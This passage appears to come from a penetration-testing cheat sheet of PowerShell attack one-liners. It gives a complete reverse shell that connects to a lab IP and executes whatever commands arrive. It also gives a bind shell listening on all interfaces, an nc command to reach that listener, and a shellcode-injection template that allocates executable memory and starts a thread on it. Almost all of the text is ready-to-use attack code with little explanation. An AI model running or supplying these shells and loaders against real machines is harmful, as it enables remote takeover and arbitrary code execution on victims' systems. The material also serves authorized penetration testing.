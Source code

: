 one-liner:

```
powershell -ep bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.56.1',6969);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### PowerShell Bind Shells

```
powershell  -ep bypass -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',6666);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

{% hint style="info" %}
ip should be the windows machine IP which is hosting the listener
{% endhint %}

now we connect to the listener with nc:

```
nc [ip] [port] 
```

### in memory injection

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocat
ionType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc
[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
